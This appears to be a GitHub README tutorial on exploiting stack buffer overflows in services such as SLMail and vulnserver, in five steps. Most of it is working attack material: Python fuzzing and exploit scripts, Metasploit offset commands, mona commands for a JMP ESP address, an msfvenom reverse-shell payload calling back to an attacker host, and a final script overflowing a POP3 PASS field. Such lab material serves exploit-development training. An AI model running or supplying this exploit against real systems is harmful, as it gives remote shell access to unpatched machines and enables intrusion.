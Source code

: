 # Buffer-Overflow-In-5-Simple-Steps

Steps:
1) Fuzzing
2) Finding Offset
3) Finding Bad characters
4) Finding RET Address
5) Generating Shellcode and getting shell



Now in every application you are testing for buffer overflow there may be a parameter or maybe not so you can manually send your every payload using nc or use a python script to fast up everything


Basic python script to exploit basic buffer overflow in applications like slmail, warftp, vulnserver etc.


#!/usr/bin/python
import time, struct, sys
import socket as so
buff = "A" * 5000
ipadd = str("192.168.2.41")
port = int("110")
s = so.socket(so.AF_INET, so.SOCK_STREAM)
try: 
 s.connect((ipadd,port))
 s.recv(1024)
 s.send('TRUN vanshal' +'\r\n')
 print "\n[+] Completed."
except:
 print("Failed")
sys.exit()


1) Fuzzing


Try to send 5000 A's in python script and increase 1000 everytime if service is not stopped.


2) Finding Offset


Generate random characters using
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb


Command: 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000


here 5000 is where the service is crashing  


Now send the generated pattern from python script


Now in immunity debugger copy the EIP address and send that address in 


/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb


/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q EIP Address


3) Finding Bad Characters


Send all hex values from python script 
hex-values -  https://raw.githubusercontent.com/Vanshal/Buffer-Overflow-In-5-Simple-Steps/master/all-hex-values




Now in immunity debugger right-click on ESP and select Follow in Dump to show the input buffer hex characters in memory
Now look at the badchars list and the immunity and compare where it changes something and remove that from python script and re-run the script to confirm that no badchar is left


4) Finding RET Address


Default: 
JMP ESP = FFE4
After installing mona in immunity 
Commnand:
!mona modules
Find the dll of your service and if there is no ddl search for exe
Probably the one with False in all memory protection is the one you need


Now copy the dll file name
the run
!mona find -s "\xff\xe4" -m slmfc.dll (slmfc.dll is dll found with !mona modules)


Copy the address and convert it to little endian format
eg
0x5f4a358f
\x8f\x35\x4a\x5f


5) Generating Shellcode and getting shell


msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.123 LPORT=443 -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -f c


here using -b switch specify badchars found in step 3


Final Script
#!/usr/bin/python
import time, struct, sys
import socket as so
buf = GENERATED SHELLCODE
buff = "A" * 2606 + "\x8f\x35\x4a\x5f" + '\x90' * 16 + buf
s = so.socket(so.AF_INET, so.SOCK_STREAM)
s.connect(('192.168.0.2',110))
s.recv(1024)
s.send('USER vanshal' +'\r\n')
s.recv(1024)
s.send('PASS ' + buff + '\r\n')
print "\n[+] Completed."
sys.exit()


NOTE: If you think other step is correct and still its not working try to change msfvenom payload type to bind shell OR try to change the value of nops to 30,20,24 etc…
